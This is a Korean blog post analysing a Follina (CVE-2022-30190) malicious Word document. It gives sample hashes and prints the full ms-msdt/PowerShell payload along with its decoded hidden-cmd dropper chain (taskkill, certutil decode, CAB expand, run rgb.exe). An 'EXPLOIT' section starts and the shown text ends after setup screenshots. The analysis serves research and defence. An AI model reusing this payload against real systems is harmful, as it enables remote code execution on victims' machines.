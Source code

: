 ```yaml
---
layout: post
title: (follina/CVE-2022-30190) 05-2022-0438.doc zero-day malware analysis & exploit
author: fr0siter
categories: [CVE]
date: 2022-12-20
tags: Follina follina
---
```



**※본 문서는 연구 목적으로 작성한 게시글입니다.
  해당 문서를 참고하여 악용할 시 기술자는 책임을 지지 않습니다.**

 

 

# Description
File name : 05-2022-0438.doc(sample)

File size : 10.01 KB

MD5 : 52945af1def85b171870b31fa4782e52

SHA-1 : 06727ffda60359236a8029e0b3e8a0fd11c23313

SHA-256 : 4a24048f81afbe9fb62e7a6a49adbd1faf41f266b5f9feecdceb567aec096784

 
<br>
<br>


처음 파일을 오픈했을 때, 새 파일처럼 내용이 아무것도 포함되어 있지 않다.(가상환경에서 실행.)


**zip 파일로 변경하고 /word/_rels 폴더로 이동하였다.**



![208555659-3208c30d-3f93-40d1-90f5-866ec146d5fe](https://user-images.githubusercontent.com/116713751/208556261-42431e3b-1d4b-4c1c-a7f2-1dd79641b15e.png)
<br>

![208555677-9cfd4632-9093-49e7-907f-12324d7fcc12](https://user-images.githubusercontent.com/116713751/208556233-6260e556-5c06-420c-9803-29208ea57534.png)


  - 해당 파일은 doc 파일의 내부구성 파일 정도로 생각하면 된다.

자세한 정보는 [여기](https://fileinfo.com/extension/rels)를 참고해 주세요.

 
<br><br>
 

**텍스트 파일로 변경한 document.xml.rels**
<br>
![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555694-5f2cc749-e045-46f1-ba75-072bdfe50f34.png)


 - 가독성을 위해 여러 줄로 변경하였다.

 - Relationship Id가 "rId996"인 수상한 구성이 보인다.

 

 <br><br>

**현재는 접속이 되지 않는 모습**

![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555698-6d2fcd0c-356e-4a8a-be87-cb08f5b64c5e.png)


 
<br><br>
 

**실제로 작동하는 RDF842I.html 파일 중 스크립트 태그의 내용(정크 바이트 제외)**


![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555704-fc5167ac-d463-4d39-8082-e37683bfed10.jpg)


 - [출처](https://thehackernews.com/2022/05/watch-out-researchers-spot-new.html)


 - 해당 파일이 동작하게 되면 word의 external link를 사용하여 html을 로드하고, 'ms-msdt'를 통해 발생한다.

   *ms- msdt : ms / diagnostic tool(진단 도구 모음)*

 
<br><br>
 

**스크립트 태그의 악성 구문**

    window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c               IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-

    Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+

    [char]58+'FromBase64String('+

    [char]34+'JGNtZCA9ICJjOlx3aW5kb3dzXHN5c3RlbTMyXGNtZC5leGUiO1N0YXJ0LVByb2Nlc3MgJGNtZCAtd2luZG93c3

    R5bGUgaGlkZGVuIC1Bcmd1bWVudExpc3QgIi9jIHRhc2traWxsIC9mIC9pbSBtc2R0LmV4ZSI7U3RhcnQtUHJvY2VzcyAk

    Y21kIC13aW5kb3dzdHlsZSBoaWRkZW4gLUFyZ3VtZW50TGlzdCAiL2MgY2QgQzpcdXNlcnNccHVibGljXCYmZm9yIC9y

    ICV0ZW1wJSAlaSBpbiAoMDUtMjAyMi0wNDM4LnJhcikgZG8gY29weSAlaSAxLnJhciAveSYmZmluZHN0ciBUVk5EUmd

    BQUFBIDEucmFyPjEudCYmY2VydHV0aWwgLWRlY29kZSAxLnQgMS5jICYmZXhwYW5kIDEuYyAtRjoqIC4mJnJnYi5le

    GUiOw=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe

    IT_AutoTroubleshoot=ts_AUTO\"";


 
<br>
- 해당 구문을 통해 powershell 명령을 ms-msdt 로 호출한다는 것을 알 수 있었다.

 

 
<br><br>
**Invoke-Expression을 통해 실행된 데이터 중 Base64로 인코딩 된 데이터를 디코딩**
![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555721-45ddf561-616a-4eeb-b28e-b542b0fb3ca1.png)


    $cmd = "c:\windows\system32\cmd.exe";Start-Process $cmd -windowstyle hidden -ArgumentList "/c taskkill /f 
    /im msdt.exe";Start-Process $cmd -windowstyle hidden -ArgumentList "/c cd C:\users\public\&&for /r %temp% 
    %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c 
    &&expand 1.c -F:* .&&rgb.exe";

 

1. hidden 창으로 다음을 작동

2. 실행 중이면 msdt.exe 종료

3. 인코딩된 CAB 파일에 대한 Base64 문자열을 찾는 RAR 파일 내부의 파일을 통해 for문 작동

  -> base64로 인코딩된 CAB 파일을 1.t로 저장

  -> base64로 인코딩된 CAB 파일을 디코딩하여 1.c로 저장

  -> 1.c CAB 파일을 현재 디텍토리로 확장

  -> rgb.exe 실행

 

이로 인해 rgb.exe가 무슨 기능을 하는지 알 수 없지만, 해당 파일이 실행되어

시스템에 영향을 끼칠 수 있다는 것을 확인할 수 있다.

 

 

 

# EXPLOIT
---
**환경**

![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555726-7b7420b0-86e9-4136-ac60-42f79da9109b.png)


 
<br><br>
**윈도우에서 word를 검색하여 파일 생성, 이름 zip으로 변경 후 압축해제**

![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555735-e89b8136-b5b9-45d7-98ef-e3e62dfa48cb.png)


 

 



 

 


